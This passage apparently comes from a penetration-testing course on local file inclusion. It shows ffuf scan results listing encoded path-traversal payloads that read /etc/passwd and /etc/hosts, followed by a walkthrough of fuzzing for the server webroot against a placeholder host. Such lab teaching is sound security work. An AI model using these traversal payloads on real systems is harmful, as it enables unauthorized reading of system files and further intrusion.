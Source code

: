 ```shell-session

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

As we can see, the scan yielded a number of LFI payloads that can be used to exploit the vulnerability. Once we have the identified payloads, we should manually test them to verify that they work as expected and show the included file content.

***

### Fuzzing Server Files

In addition to fuzzing LFI payloads, there are different server files that may be helpful in our LFI exploitation, so it would be helpful to know where such files exist and whether we can read them. Such files include: `Server webroot path`, `server configurations file`, and `server logs`.

**Server Webroot**

We may need to know the full server webroot path to complete our exploitation in some cases. For example, if we wanted to locate a file we uploaded, but we cannot reach its `/uploads` directory through relative paths (e.g. `../../uploads`). In such cases, we may need to figure out the server webroot path so that we can locate our uploaded files through absolute paths instead of relative paths.

To do so, we can fuzz for the `index.php` file through common webroot paths, which we can find in this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Depending on our LFI situation, we may need to add a few back directories (e.g. `../../../../`), and then add our `index.php` afterwords.

The following is an example of how we can do all of this with ffuf:

Automated Scanning

```shell-session
root@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287

...SNIP...

: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```
